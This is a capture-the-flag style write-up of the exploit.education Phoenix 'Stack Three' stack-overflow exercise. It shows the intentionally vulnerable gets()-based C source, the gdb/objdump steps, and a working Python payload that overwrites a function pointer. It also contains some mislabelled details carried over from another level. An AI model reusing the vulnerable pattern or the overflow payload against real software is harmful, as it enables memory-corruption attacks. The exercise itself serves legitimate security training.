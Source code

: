 ```yaml
---
description: 07/17/2023
---
```


# 3⃣ Stack Three

> Stack Three looks at overwriting function pointers stored on the stack.

#### Hints

* You can use `gdb` and `objdump` to determine where the `complete_level()` <mark style="color:yellow;">function</mark> <mark style="color:yellow;">is in memory</mark>.

## Source Code

```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Our main goal is to find out where the `changeme()` variable is.

Once we locate it in memory, we need to change the value to: `0x0d0a090a`.

* `0x0d0a090a`
* `\x0a\x09\x0a\x0d`

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

## GDB

```
gdb stack-three
```

Let's check out the disassembly for the `main()` function:

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Let's check out the disassembly for the `complete_level()` function:

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

We can see that `0x000000000040069d` is the memory address for the stack base pointer (`rbp`) for our function.

Let's try and mess with the program a bit more and send it a long string:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Interesting, we ended up receiving a segmentation fault, meaning our program attempted to write/access out of bounds memory and in return forcefully crashed our program to protect our system.

We ended up getting the message calling function pointer `0x585858`... and was curious to see what that looked like in the ASCII table:

Hex `58` is equivalent to char `X`. We can see this by doing `man ascii`:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

So, if we go back and look at our `complete_level()` function, we need to get the program to call this so we can move on to the next level.

I also wanted to diversify with the tooling a little and decided to check out the same information in objdump as well. We can manually go through all of the disassembly without grepping for our function that we are looking for, but who wants to do that?

```
objdump -d stack-three | grep complete_level  
000000000040069d <complete_level>:
```

Take the following snippet of `main()`:

```c
int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
```

This is interesting ebcause we see our function pointer (`fp`) being set to `NULL`. `gets()` will take our input and store it within the 64-byte buffer (`buffer[64]`). And lastly in our `main()` function `locals.fp()` will be called to call whatever is stored in our function pointer (`fp`).

With that said, let's take the function pointer's address and convert it to little-endian and overwrite the buffer:

```
python -c 'print "X"*64 + "\x9d\x06\x40"' | ./stack-three
```

With our function pointer's address: `0x000000000040069d`, we take that and convert it to little-endian: `\x9d\x06\x40`, overwrite our 64-byte buffer that's specified within our structure, and send it to the binary, we're able to overwrite our function pointer!

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>
